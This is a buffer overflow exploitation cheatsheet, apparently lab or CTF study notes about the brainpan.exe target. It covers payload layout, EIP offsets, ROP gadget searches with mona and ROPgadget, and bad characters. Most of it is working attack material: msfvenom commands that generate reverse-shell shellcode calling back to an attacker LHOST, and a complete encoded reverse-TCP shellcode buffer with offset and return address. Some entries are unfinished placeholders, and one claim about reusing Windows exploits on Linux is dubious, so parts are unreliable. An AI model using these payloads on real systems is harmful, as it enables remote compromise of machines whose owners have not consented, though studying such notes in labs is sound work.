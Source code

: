 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
For Windows vulnerable machine
1. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=192.168.1.77 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
2. msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00' BufferRegister=EAX -f python

For Linux vulnerable machine
1. msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode
```

## Payload Format

* **payload = junk + shell\_addr + \(nops + shellcode\)**
  * `junk` : is offset before the EIP overwritten.
  * `shell_addr` : is the address which we overwrite on the EIP register.
  * `(nops + shellcode)` : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

3\) Even if the shellcode is not running

* It could be due to bad characters. There is a method to find bad characters.

## ROP Gadgets

* Different types of ROP gadgets. Depending on the ROP gadget we decide the payload format.
  * JMP ESP
  * POP RET
  * POP POP RET
* Not when we use ROP gadget, we inject our shellcode inside the "junk" text itself. From experience we  know that "**there is call made back to the stack"** after execution of ROP gadget which points to start of the "junk" address.
* The format **payload = buf + junk\_remaining + ROP\_addr** is for **POP RET**
  * where `buf` is our reverse tcp shellcode
  * where `junk_remaining` = junk - len\(buf\)
  * where `ROP_addr` is the address of the ROP gadget.
* The format **payload = junk + ROP\_addr + shellcode** is for **JMP ESP**
* d

### Sample payload

```text
buf =  ""
buf += "\x48\xf5\x40\x42\x2f\x48\x4a\x49\x99\x4b\xb8\x1b\xa4"	#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.137.141 LPORT=10000 -n 10 --arch x86 --platform windows -f python -b "\x00"
buf += "\x79\xd9\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x52"	# nops are pre included in shellcode.
buf += "\x31\x45\x12\x03\x45\x12\x83\xde\xa0\x9b\x2c\x1c\x40"
buf += "\xd9\xcf\xdc\x91\xbe\x46\x39\xa0\xfe\x3d\x4a\x93\xce"
buf += "\x36\x1e\x18\xa4\x1b\x8a\xab\xc8\xb3\xbd\x1c\x66\xe2"
buf += "\xf0\x9d\xdb\xd6\x93\x1d\x26\x0b\x73\x1f\xe9\x5e\x72"
buf += "\x58\x14\x92\x26\x31\x52\x01\xd6\x36\x2e\x9a\x5d\x04"
buf += "\xbe\x9a\x82\xdd\xc1\x8b\x15\x55\x98\x0b\x94\xba\x90"
buf += "\x05\x8e\xdf\x9d\xdc\x25\x2b\x69\xdf\xef\x65\x92\x4c"
buf += "\xce\x49\x61\x8c\x17\x6d\x9a\xfb\x61\x8d\x27\xfc\xb6"
buf += "\xef\xf3\x89\x2c\x57\x77\x29\x88\x69\x54\xac\x5b\x65"
buf += "\x11\xba\x03\x6a\xa4\x6f\x38\x96\x2d\x8e\xee\x1e\x75"
buf += "\xb5\x2a\x7a\x2d\xd4\x6b\x26\x80\xe9\x6b\x89\x7d\x4c"
buf += "\xe0\x24\x69\xfd\xab\x20\x5e\xcc\x53\xb1\xc8\x47\x20"
buf += "\x83\x57\xfc\xae\xaf\x10\xda\x29\xcf\x0a\x9a\xa5\x2e"
buf += "\xb5\xdb\xec\xf4\xe1\x8b\x86\xdd\x89\x47\x56\xe1\x5f"
buf += "\xc7\x06\x4d\x30\xa8\xf6\x2d\xe0\x40\x1c\xa2\xdf\x71"
buf += "\x1f\x68\x48\x1b\xda\xfb\xb7\x74\x6d\x76\x5f\x87\x6d"
buf += "\xae\xb0\x0e\x8b\xda\xa0\x46\x04\x73\x58\xc3\xde\xe2"
buf += "\xa5\xd9\x9b\x25\x2d\xee\x5c\xeb\xc6\x9b\x4e\x9c\x26"
buf += "\xd6\x2c\x0b\x38\xcc\x58\xd7\xab\x8b\x98\x9e\xd7\x03"
buf += "\xcf\xf7\x26\x5a\x85\xe5\x11\xf4\xbb\xf7\xc4\x3f\x7f"
buf += "\x2c\x35\xc1\x7e\xa1\x01\xe5\x90\x7f\x89\xa1\xc4\x2f"
buf += "\xdc\x7f\xb2\x89\xb6\x31\x6c\x40\x64\x98\xf8\x15\x46"
buf += "\x1b\x7e\x1a\x83\xed\x9e\xab\x7a\xa8\xa1\x04\xeb\x3c"
buf += "\xda\x78\x8b\xc3\x31\x39\xbb\x89\x1b\x68\x54\x54\xce"
buf += "\x28\x39\x67\x25\x6e\x44\xe4\xcf\x0f\xb3\xf4\xba\x0a"
buf += "\xff\xb2\x57\x67\x90\x56\x57\xd4\x91\x72"

junk = 'A'* (524 - len(buf))        #where 524 is the offset after which EIP is overwritten.    
rop_addr = '\x25\x27\x21\x77'        #77212725

payload = buf + junk + rop_addr
```

![](.gitbook/assets/image%20%2827%29.png)

* Right click on the command box -&gt; Search for -&gt; Sequence of commands

```text
POP EAX
POP EBX
RET
```

* "ctrl + l" to find the next search result.

### Finding ROP in linux 1

* Used to find ROP gadgets in a .exe file.
* Download the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) script.
* Using ROPgadget find the ROP gadgets on the vulnerable .exe file.

![](.gitbook/assets/image%20%2846%29.png)

### Finding ROP in linux 2

* d

### Finding ROP gadgets in immunity debugger

* We could used this approach to find ROP gadgets in modules only. We cannot use it on .exe files.
* modules means all .dll files that the current program uses. 
* `!mona modules`
* Then we need to decide which modules to use. We use that modules that have most of the necessary protection mechanisms disabled. Like "ASLR", "DEP", "NX" ,etc.

![list of modules](.gitbook/assets/image%20%286%29.png)

* We selected the brainpan.exe executable as all of the security protections are disabled.
* Our task now is to statically find ROP gadgets. We now can use "[Finding ROP in linux 1](buffer-overflow-cheatsheet.md#finding-rop-in-linux-1)" approach for this mentioned above.

### Could the same exploit on windows x86 be used in linux x86 without modifying a single information?

* Yes but we need some Requirements for this:
  * Run `!mona modules` We need essential memory protection mechanisms disabled on the vulnerable `.exe` file
  * There should be ROP gadgets in the `.exe` file.
  * We need to run the same `.exe` file on the x86 linux machine.
* The only issue with such kind of exploit are the "**hardcoded addresses**".
* If we use ROP gadget method "JMP ESP" for buffer overflow, we have only one hardcoded address, that is of the address of the ROP gadget.
* If we met all the requirements mentioned above. Then the ROP gadget address will not change irrespective of the underlying OS, as it is present inside the `.exe` file itself. 

